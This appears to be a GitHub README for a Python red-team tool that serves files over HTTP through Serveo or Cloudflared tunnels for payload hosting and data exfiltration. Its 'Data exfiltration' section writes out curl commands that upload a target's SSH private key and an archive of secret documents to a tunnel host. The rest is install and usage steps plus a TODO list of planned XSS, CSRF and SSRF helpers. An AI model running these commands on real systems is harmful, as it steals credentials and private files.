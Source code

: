 <h2 align="center">
  🪝 Webhook Server Tunnel
</h2>


 
<p align="center">
    <a href="https://visitorbadge.io/status?path=https%3A%2F%2Fgithub.com%2Fl0n3m4n%2FSearchToolkit">
        <img src="https://api.visitorbadge.io/api/visitors?path=https%3A%2F%2Fgithub.com%2Fl0n3m4n%2Fwebhook&label=Visitors&countColor=%2337d67a" />
    </a>
    <a href="https://www.facebook.com/UEVOLVJU">
        <img src="https://img.shields.io/badge/Facebook-%231877F2.svg?style=for-the-badge&logo=Facebook&logoColor=white" alt="Facebook">
    </a>
      <a href="https://www.twitter.com/UEVOLVJU">
        <img src="https://img.shields.io/badge/Twitter-%23000000.svg?style=for-the-badge&logo=X&logoColor=white" alt="X">
    </a>
    <a href="https://medium.com/@l0n3m4n">
        <img src="https://img.shields.io/badge/Medium-12100E?style=for-the-badge&logo=medium&logoColor=white" alt="Medium">
    </a>
    <a href="https://www.buymeacoffee.com/l0n3m4n">
        <img src="https://img.shields.io/badge/Buy%20a%20Coffee-ffdd00?style=for-the-badge&logo=buy-me-a-coffee&logoColor=black" alt="Buy Me a Coffee">
    </a>  
    <a href="mailto:ehph@proton.me">
      <img src="https://img.shields.io/badge/ProtonMail-6001D2?style=for-the-badge&logo=protonmail&logoColor=white" alt="ProtonMail">
    </a>
    <a href="https://github.com/l0n3m4n/SearchToolkit/blob/main/assets/contributing.md">
      <img src="https://img.shields.io/badge/Contribute-%23121011.svg?style=for-the-badge&logo=github&logoColor=white" alt="GitHub">
  </a>
</p>
<br/>

This Python script serves a local directory over HTTP and exposes it securely to the internet via a reverse tunnel using either:

- Serveo (SSH-based tunneling)
- Cloudflared (Cloudflare Tunnel)

It’s especially useful for:

- 📁 Hosting payloads or exploits during red team exercises or CTFs
- 📤 Exfiltrating data from compromised targets in a controlled environment via (`https`)
- 🧪 Testing XSS, CSRF, and SSRF vulnerabilities by exposing local endpoints
- 🌐 Simulating external servers during bug bounty engagements
- 💻 Demonstrating proof-of-concepts (PoCs) for file uploads or callbacks
- 🔐 Secure remote access to localhost web apps for testing
- 📡 Bypassing NAT/firewall restrictions without port forwarding

![Banner](assets/banner.png)

---

## 🚀 Features

- HTTP server using Python's built-in modules
- Logs all request headers to `headers.log`
- Expose server via:
  - 🌐 [Serveo](https://serveo.net)
  - ☁️ [Cloudflared](https://developers.cloudflare.com/cloudflare-one/)
- ANSI-colored terminal output
- Easy to use CLI

---

## 🛠 Requirements

- Python 3.6+
- `cloudflared` (only if Serveo is unavailable)

---

## 📦 Installation

```bash
# Clone the repo
git clone https://github.com/l0n3m4n/webhook.git
cd webhook

# Make it executable
chmod +x webhook.py

# (Optional) Install cloudflared if not using Serveo
sudo apt install cloudflared  # Or follow: https://developers.cloudflare.com/cloudflare-one/connections/connect-apps/install-and-setup/
```

## 🐧 Kali linux (debian,ubuntu)
```bash
# system update
sudo apt update

# dependencies
sudo apt install -y curl gnupg lsb-release

# Add Cloudflare's GPG key
curl -fsSL https://pkg.cloudflare.com/cloudflare-main.gpg | sudo gpg --dearmor -o /usr/share/keyrings/cloudflare-main.gpg

# Add the Cloudflare apt repository
echo "deb [signed-by=/usr/share/keyrings/cloudflare-main.gpg] https://pkg.cloudflare.com/cloudflared $(lsb_release -cs) main" | sudo tee /etc/apt/sources.list.d/cloudflared.list

# Update apt again and Install
sudo apt update && sudo apt install cloudflared -y 
```
## 📡 Usage
```bash
sudo python3 webhook.py -p 8080 -d /var/www/html
```
![usage](assets/usage.png)
![output](assets/output.png)
![status_codes](assets/status_codes.png)
![headers_log](assets/headers_logs.png)
 

## 🔁 Data exfiltration
```bash
curl -F "file=@/home/user/.ssh/id_rsa" https://abc123.cloudflareTunnel.com/upload

tar czf secrets.tar.gz ~/Documents/secrets
curl -F "file=@secrets.tar.gz" https://abc123.cloudflareTunnel.com/upload

```

## 🔐 Security Notes
- This tool uses SSH for Serveo and a reverse proxy for Cloudflared.
- Ensure you trust any services you expose publicly.

## ✅ TODO List

### 🔌 Tunnel Providers
- [x] Add support for multiple tunneling services:
  - [x] `Serveo`
  - [x] `Cloudflared`
  - [x] `Ngrok`
  - [x] `LocalTunnel`
- [x] Add CLI flags for selecting tunnel provider (e.g., `--serveo`, `--cloudflared`, `--ngrok`)
- [x] Auto-detect and install missing binaries (e.g., `ngrok`, `cloudflared`)

### 🌐 Server Features
- [x] Display public tunnel URL clearly
- [x] Serve files from a specified directory
- [x] Web-based directory listing with download buttons
- [x] File upload support for data exfiltration
- [x] Log incoming HTTP requests (IP, User-Agent, Time)

### ⏱️ Control & Automation
- [ ] Implement auto-shutdown timer
- [ ] Auto-reconnect/restart tunnels on failure
- [ ] Add password protection for server access

### 🧪 Exploitation Helpers
- [ ] Generate payload templates:
  - [ ] XSS (DOM, Reflected, Stored)
  - [ ] CSRF Proof of Concept
  - [ ] LFI/RFI test cases
  - [ ] SSRF test URLs
- [ ] Webhook listener module (e.g., for Blind XSS or SSRF detection)
- [ ] Integrate with Interactsh or Burp Collaborator

### 🛠️ Developer Tools
- [ ] Proxy chaining to local tools like Burp Suite
- [ ] Optional local logging
- [ ] QR code generator for public URLs
- [x] CLI output beautification (colors, banners, progress indicators)

---

> Contributions and suggestions are welcome!
